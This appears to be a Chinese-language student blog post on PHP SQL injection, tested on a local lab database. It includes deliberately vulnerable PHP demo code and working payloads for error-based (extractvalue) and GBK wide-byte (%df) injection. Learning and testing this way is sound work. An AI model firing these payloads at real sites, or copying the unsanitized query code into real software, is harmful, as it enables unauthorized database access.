


# PHP_SQL_INJECTION


有点好久不见，之前在入门之处学的第一个就是这个漏洞，不过那个时候学的是漏洞，没有涉及到专门分语言的。

&lt;!--more--&gt;

  

# SQL Injection 原理

  

&gt;将恶意SQL语句注入到Web表单的输入页面中，该恶意SQL语句会导致原有的SQL语句发生改变，从而达到攻击者的目的去让它去执行一些危险的数据操作。

  

简单说，所有涉及到的数据库的 **增删改查** 操作的功能点都有可能存在SQL Injection。

  

# Categories

  



  

之前单独学习的时候，只学到报错注入、盲注、堆叠注入，就觉得OMG怎么这么难，堪比现在的我面对数电实验之4位并行加法器。

  

&lt;hr&gt;

&lt;hr&gt;

  
  
  
  

# init()

  

在开始之前，先搞好配置吧。

  

phptorm &#43; XAMPP

  

有phpstorm最好，没有的请有phpstudy或者XAMPP之类工具（有phpstorm也要有当然如果你自己本地有php就不需要了）。

  

参考一下：

  

- [phpstorm运行本地php文件](https://cloud.tencent.com/developer/article/1739540)

- [php连接MySQL](https://www.runoob.com/php/php-mysql-insert.html)

  

- [MySQL Workbench基本使用](https://c.biancheng.net/view/2625.html)（如果有安装MySQL的话……没有也没事，XAMPP或者phpstudy自带）

  

然后写了一个测试php：

```php

&lt;?php

$servername = &#34;localhost&#34;;

$username = &#34;root&#34;;

$password = &#34;Flask08&#34;;

$dbname = &#34;demo&#34;;

  

// 创建链接

$conn = mysqli_connect($servername, $username, $password, $dbname,3306);

// 检查链接

if (!$conn) {

    die(&#34;连接失败: &#34; . mysqli_connect_error());

}

  

$sql = &#34;INSERT INTO user (username, email, password,  id)

VALUES (&#39;Lisa&#39;, &#39;lias@example.com&#39;, &#39;fdaggsd&#39; , 3);&#34;;

  
  

if ($conn-&gt;query($sql) === TRUE) {

    echo &#34;新记录插入成功&#34;;

} else {

    echo &#34;Error: &#34; . $sql . &#34;&lt;br&gt;&#34; . mysqli_error($conn);

}

  

mysqli_close($conn);

?&gt;

  

```

测试结果：


  



  

(尝试使用muti_query不知道为什么出错了，感觉可能又是php版本不兼容，我的是5.6)

  
  

-----

  

[尝试用SQL语句在Workbench中删除记录时遇到的一个问题以及解决方法](https://stackoverflow.com/questions/11448068/mysql-error-code-1175-during-update-in-mysql-workbench)

  

&lt;hr&gt;

&lt;hr&gt;

  

## 报错注入

  

### mysqli_error()

  

&lt;table&gt;&lt;tr&gt;&lt;td bgcolor=yellow&gt;条件:&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;

  

- 对传入的参数 **未做过滤** 直接拼接到SQL语句中执行

- 直接使用`mysqli_error()`进行报错处理且没有对报错信息进行良好的处理

  
  

测试demo

  

```php

&lt;?php

if(isset($_GET[&#39;id&#39;])){

    header(&#34;Content-type: text/heml;charset=utf-8&#34;);

    $servername = &#34;localhost&#34;;

    $username = &#34;root&#34;;

    $password = &#34;F01&#34;;

    $dbname = &#34;demo&#34;;

  

    // 创建链接

    $conn = mysqli_connect($servername, $username, $password, $dbname,3306);

    // 检查链接

    if (!$conn) {

        die(&#34;连接失败: &#34; . mysqli_connect_error());

    }

    $id=$_GET[&#39;id&#39;];

    $sql=&#34;SELECT * FROM user WHERE id=&#39;$id&#39; LIMIT 0,1&#34;;//惊为天人的是，这里我把id=打错成了id-，但是依旧有效运行

    $result=mysqli_query($conn,$sql);

    $row=@mysqli_fetch_array($result);

  

    if($row){

        echo &#34;Your name is: &#34;.$row[&#39;username&#39;];

        echo &#34;&lt;br&gt;&#34;;

        echo &#34;your psw: &#34;.$row[&#39;password&#39;];

    }

    else{

        echo mysqli_error($conn);//这里也有一个mysqli_errno()函数，当时可能没注意直接回车……但依旧有效……

    }

  

    mysqli_close($conn);

}

  

?&gt;

```

  

进行正常测试：

  

`http://localhost:63342/demo/error.php?id=1`

  
  

返回：

  

`Your name is: John&lt;br&gt;your psw: daidgiaegigak`

`Your name is: Amy&lt;br&gt;your psw: sfggregea`

  

如果进行错误测试：

  

`http://localhost:63342/demo/error.php?id=1&#39;`

  
  

报错：

  

```txt

&lt;br /&gt;

&lt;b&gt;Fatal error&lt;/b&gt;:  Uncaught mysqli_sql_exception: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near &#39;&#39;1&#39;&#39; LIMIT 0,1&#39; at line 1 in C:\Users\fk\PhpstormProjects\demo\error.php:17

  

Stack trace:

#0 C:\Users\fk\PhpstormProjects\demo\error.php(17): mysqli_query(Object(mysqli), &#39;SELECT * FROM u...&#39;)//出现表名

  

#1 {main}

  thrown in &lt;b&gt;C:\Users\fk\PhpstormProjects\demo\error.php&lt;/b&gt; on line &lt;b&gt;17&lt;/b&gt;&lt;br /&gt;

```

  

&lt;br&gt;

&lt;br&gt;

  

其实看第一段的`near &#39;&#39;1&#39;&#39; LIMIT 0,1&#39;`就行，一个报错注入就可以出现雏形。

  

`id=1&#39; or 1=1--&#43;`就正常输出，回头去看源码

  
  

```php

//...

$id=$_GET[&#39;id&#39;];

//...

```

  
  

`id=1&#39;`相当于`$id=$_GET[&#39;1&#39;&#39;]`。

`id=1&#39; or 1=2 --&#43;`相当于`&#39;1&#39; or 1=2--&#43;&#39;`即`$_GET[&#39;1&#39; or 1=2]`

  

&lt;br&gt;

&lt;br&gt;

  

一点简单的测试之后，

  

&lt;br&gt;

&lt;br&gt;

  

在按部就班的测试之后就可以构造payload：

`http://demo/error.php?id=1%27%20and%20(select%20extractvalue(%22anything%22,concat(%27~%27,(user()))))%20--%20qwe`

  

就可以通过报错回显得到：`XPATH syntax error: &#39;~root@localhost&#39;`

  
  

&lt;hr&gt;

  

一个番外，当我不小心把那个单引号打成中文单引号，就无事发生——没有报错，依旧正常输出。

具体原因，tbc。

  

&lt;hr&gt;

&lt;hr&gt;

  

## 宽字节注入

  

mysql的gbk编码是多字节编码，两个字节代表一个汉字，`%df` &#43; `\`会组成一个汉字，所以利用这个特性进行`&#39;`的逃逸，构成sql注入。

  

### addslashes()

  

该函数对预定义的字符进行 前加\ 操作

  

**预定义的字符**：

  

- 单引号

- 双引号

- 反斜杠

- NULL

  

&lt;hr&gt;

  

进行测试

  

```php

//testdemo

&lt;?php

if(isset($_GET[&#39;id&#39;])){

    header(&#34;Content-type: text/heml;charset=utf-8&#34;);

    $servername = &#34;localhost&#34;;

    $username = &#34;root&#34;;

    $password = &#34;Flaskon0801&#34;;

    $dbname = &#34;demo&#34;;

  

    // 创建链接

    $conn = mysqli_connect($servername, $username, $password, $dbname,3306);

    mysqli_query($conn,&#34;SET NAMES &#39;gbk&#39;&#34;);//设置MySQL字符编码为gbk

    // 检查链接

    if (!$conn) {

        die(&#34;连接失败: &#34; . mysqli_connect_error());

    }

    $id=addslashes($_GET[&#39;id&#39;]);

    //$id=$_GET[&#39;id&#39;];

    $sql=&#34;SELECT * FROM user WHERE id=&#39;$id&#39; LIMIT 0,1&#34;;

    echo &#34;sql thing: &#34; .$sql.&#34;&lt;br&gt;&lt;br&gt;&#34;;

    $result=mysqli_query($conn,$sql);

    $row=@mysqli_fetch_array($result);

  

    if($row){

        echo &#34;Your name is: &#34;.$row[&#39;username&#39;];

        echo &#34;&lt;br&gt;&#34;;

        echo &#34;your psw: &#34;.$row[&#39;password&#39;];

    }

    else{

        echo mysqli_error($conn);

    }

  

    mysqli_close($conn);

}

  

?&gt;

```

  

**进行测试**

  

1.`id=%27%27`

报错：

`sql thing: SELECT * FROM user WHERE id=&#39;\&#39;\&#39;&#39; LIMIT 0,1&lt;br&gt;&lt;br&gt;`

  

2.`id=1%27%df%20or%201=2--&#43;`

  

`sql thing: SELECT * FROM user WHERE id=&#39;1\&#39;� or 1=2-- &#39; LIMIT 0,1&lt;br&gt;&lt;br&gt;Your name is: John&lt;br&gt;your psw: daidgiaegigak`

  

3.`id=1%df%27%20or%201=2--&#43;`

  

`sql thing: SELECT * FROM user WHERE id=&#39;1�\&#39; or 1=2-- &#39; LIMIT 0,1&lt;br&gt;&lt;br&gt;Your name is: John&lt;br&gt;your psw: daidgiaegigak`

  

第三条就是我们所说的组成汉字，

  

`�\`变成一个汉字（这里解析不出来），所以 id = &#39;1&#39; or 1=2,单引号逃逸成功，也就成功执行了sql注入。

  

还可以换其他sql注入语句，这里只是简单测试就不写了。

  

值得研究的是，第二条，也是打错了的，但是注入依旧成功了——是注释的作用还是反斜杠的注释作用？

  

&lt;hr&gt;

&lt;hr&gt;

  

## 盲注

  
  

&lt;hr&gt;

  

[SQL注入](https://ctf-wiki.org/web/sqli/)

---

> Author:   
> URL: https://66lueflam144.github.io/posts/80849ea/  

